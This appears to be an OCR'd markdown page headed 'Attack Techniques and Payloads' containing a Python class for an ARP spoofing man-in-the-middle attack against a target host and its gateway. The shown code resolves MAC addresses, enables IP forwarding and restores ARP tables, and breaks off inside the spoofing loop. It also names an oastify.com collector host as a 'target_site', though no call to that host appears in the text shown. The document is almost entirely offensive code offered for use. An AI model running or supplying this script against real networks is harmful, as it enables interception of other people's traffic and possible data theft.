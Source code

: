 
## Attack Techniques and Payloads

### 🎯 ARP Spoofing Attack Script
```python
#!/usr/bin/env python3
import scapy.all as scapy
import time
import threading
import requests

class ARPSpoofingAttack:
    def __init__(self, interface, gateway_ip, target_ip):
        self.interface = interface
        self.gateway_ip = gateway_ip
        self.target_ip = target_ip
        self.gateway_mac = None
        self.target_mac = None
        self.running = False
        self.target_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
    
    def get_mac_address(self, ip):
        """Get MAC address for given IP using ARP"""
        arp_request = scapy.ARP(pdst=ip)
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
        arp_request_broadcast = broadcast / arp_request
        answered_list = scapy.srp(arp_request_broadcast, timeout=2, verbose=False)[0]
        
        if answered_list:
            return answered_list[0][1].hwsrc
        return None
    
    def enable_ip_forwarding(self):
        """Enable IP forwarding for traffic routing"""
        import subprocess
        try:
            subprocess.run(["echo", "1"], stdout=open("/proc/sys/net/ipv4/ip_forward", "w"))
            print("✅ IP forwarding enabled")
        except Exception as e:
            print(f"❌ Failed to enable IP forwarding: {e}")
    
    def restore_arp_tables(self):
        """Restore original ARP tables"""
        if self.gateway_mac and self.target_mac:
            # Restore target's ARP table
            restore_target = scapy.ARP(
                op=2, pdst=self.target_ip, hwdst=self.target_mac,
                psrc=self.gateway_ip, hwsrc=self.gateway_mac
            )
            
            # Restore gateway's ARP table
            restore_gateway = scapy.ARP(
                op=2, pdst=self.gateway_ip, hwdst=self.gateway_mac,
                psrc=self.target_ip, hwsrc=self.target_mac
            )
            
            scapy.send(restore_target, verbose=False)
            scapy.send(restore_gateway, verbose=False)
            print("🔄 ARP tables restored")
    
    def perform_arp_spoofing(self):
        """Continuously send spoofed ARP packets"""
        while self.running:
```
